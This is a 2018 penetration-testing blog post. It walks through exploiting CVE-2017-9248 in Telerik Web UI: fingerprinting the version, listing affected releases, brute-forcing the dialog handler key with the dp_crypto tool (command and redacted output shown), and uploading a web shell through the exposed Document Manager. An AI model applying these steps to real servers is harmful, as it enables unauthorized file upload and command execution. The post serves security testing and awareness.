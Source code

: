 ```yaml
---
layout: post
title:  "Pwning Web Applications via Telerik Web UI"
date:   2018-08-03
categories: pentest
description: "A method of exploiting vulnerable versions of Telerik Web UI."
header-img: /static/img/2018-08-03-pwning-with-telerik/08.png
image: /static/img/2018-08-03-pwning-with-telerik/08.png
---
```


## Introduction 

Over the past months, I’ve encountered a number of web applications that were using Telerik Web UI components for their application’s interface. There’s nothing wrong with using third party components to make your application’s interface the way you want it. However, a vulnerability in these components could cause you harm. 


In this post, I’m going to show you how I pwned several web applications, specifically ASP.NET ones, by abusing an outdated version of Telerik Web UI.  

## Identification

The simplest way to check if the application is using Telerik Web UI is to view its HTML source code. 
[![Source1](/static/img/2018-08-03-pwning-with-telerik/01.png)](/static/img/2018-08-03-pwning-with-telerik/01.png)
> _**TIP #1:** There are times where you’ll not find exactly the string **Telerik.Web.UI** from the HTML code. However, if you find the string **Telerik**, just keep on browsing the other pages of the application and search for the string **Telerik.Web.UI** again._


If you’ve identified that the application is using Telerik Web UI, the next step is to identify its version and check if it’s vulnerable to [**CVE-2017-9248**](https://www.telerik.com/support/kb/aspnet-ajax/details/cryptographic-weakness).  


Finding the version can either be easy or tricky. To get the exact version, just view the HTML code. In the case below, the version information sits right next to the string **Telerik.Web.UI**. That’s easy.
[![Source2](/static/img/2018-08-03-pwning-with-telerik/02.png)](/static/img/2018-08-03-pwning-with-telerik/02.png)

However, there are cases where the version is not located right next to the string “**Telerik.Web.UI**”. Another way to identify the version of Telerik Web UI is by going through the HTML comments just like here. 
[![Source3](/static/img/2018-08-03-pwning-with-telerik/03.png)](/static/img/2018-08-03-pwning-with-telerik/03.png)

Once you have the version information, cross-reference it with the list of vulnerable versions. Based on the [exploitation tool](https://github.com/bao7uo/dp_crypto) written by Paul Taylor ([@bao7uo](https://twitter.com/bao7uo)), the following versions are affected:
```
2007.1423        2008.31314       2010.31317        2013.1.403        2015.2.729
2007.1521        2009.1311        2011.1315         2013.1.417        2015.2.826
2007.1626        2009.1402        2011.1413         2013.2.611        2015.3.930
2007.2918        2009.1527        2011.1519         2013.2.717        2015.3.1111
2007.2101        2009.2701        2011.2712         2013.3.1015       2016.1.113
2007.21107       2009.2826        2011.2915         2013.3.1114       2016.1.225
2007.31218       2009.31103       2011.31115        2013.3.1324       2016.2.504
2007.31314       2009.31208       2011.3.1305       2014.1.225        2016.2.607
2007.31425       2009.31314       2012.1.215        2014.1.403        2016.3.914
2008.1415        2010.1309        2012.1.411        2014.2.618        2016.3.1018
2008.1515        2010.1415        2012.2.607        2014.2.724        2016.3.1027
2008.1619        2010.1519        2012.2.724        2014.3.1024       2017.1.118
2008.2723        2010.2713        2012.2.912        2015.1.204        2017.1.228
2008.2826        2010.2826        2012.3.1016       2015.1.225        2017.2.503
2008.21001       2010.2929        2012.3.1205       2015.1.401        2017.2.621
2008.31105       2010.31109       2012.3.1308       2015.2.604        2017.2.711
2008.31125       2010.31215       2013.1.220        2015.2.623        2017.3.913
```

## Exploitation

Before jumping to the exploitation, we have to locate first the "Dialog Handler" **Telerik.Web.UI.DialogHandler.aspx**. Most of the time, it’s located at the root directory of the application. If it’s not there, try the sub-directories. To verify if you’ve found the right location, you should see the string "**Loading the dialog…**" when accessing the dialog handler.
[![Loading](/static/img/2018-08-03-pwning-with-telerik/04.png)](/static/img/2018-08-03-pwning-with-telerik/04.png)
> _**TIP #2:** Sometimes, the sub-directory where the dialog handler is located (or where Telerik Web UI is located in general) can be found from the HTML source code._

For the exploitation, use the tool written by Paul Taylor which can be downloaded [here](https://github.com/bao7uo/dp_crypto). Credits and big thanks to him for writing this one. 


Here’s an example of the tool running to bruteforce the key and discover the hidden link to access the **Document Manager** page.
```console
root@kali:~# python dp_crypto.py -k http://www.example.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9

dp_crypto by Paul Taylor / Foregenix Ltd
CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://www.example.com/Telerik.Web.UI.DialogHandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {D} found with 31 requests, total so far: 31
Key position 02: {3} found with 10 requests, total so far: 41
Key position 03: {A} found with 35 requests, total so far: 76
Key position 04: {D} found with 46 requests, total so far: 122
<------------------------ SNIPPED ------------------------>
Key position 45: {B} found with 50 requests, total so far: 1638
Key position 46: {3} found with 36 requests, total so far: 1674
Key position 47: {3} found with 50 requests, total so far: 1724
Key position 48: {F} found with 57 requests, total so far: 1781
Found key: D3AD[redacted]B33F
Total web requests: 1781
2014.3.1024: http://www.example.com/Telerik.Web.UI.DialogHandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=[snipped&redacted]
```

By visiting the "**Document Manager**" link, we see that we now have access to all the files and folders of the web server. More importantly, we see that we can upload arbitrary files to the server.
[![Document Manager](/static/img/2018-08-03-pwning-with-telerik/05.png)](/static/img/2018-08-03-pwning-with-telerik/05.png)

Here’s an example of the shell **cmd.aspx** file that I uploaded. 
[![Shell](/static/img/2018-08-03-pwning-with-telerik/06.png)](/static/img/2018-08-03-pwning-with-telerik/06.png)

And here’s an example of a command execution using the uploaded shell.
[![Shell Upload](/static/img/2018-08-03-pwning-with-telerik/07.png)](/static/img/2018-08-03-pwning-with-telerik/07.png)

## Telewreck

As part of my learning process, I decided to create a Burp Suite extension that can detect and exploit vulnerable instances of Telerik Web UI. I named it **Telewreck** and is available at [https://github.com/capt-meelo/Telewreck](https://github.com/capt-meelo/Telewreck). 

When running a passive scan, this extension will look for vulnerable versions of Telerik Web UI.
[![Passive](/static/img/2018-08-03-pwning-with-telerik/08.png)](/static/img/2018-08-03-pwning-with-telerik/08.png)

A tab where you can perform the exploitation part is also available.
[![Tab](/static/img/2018-08-03-pwning-with-telerik/09.png)](/static/img/2018-08-03-pwning-with-telerik/09.png)

That's it! 

Feel free to contribute in the development of the tool and report/fix some issues.
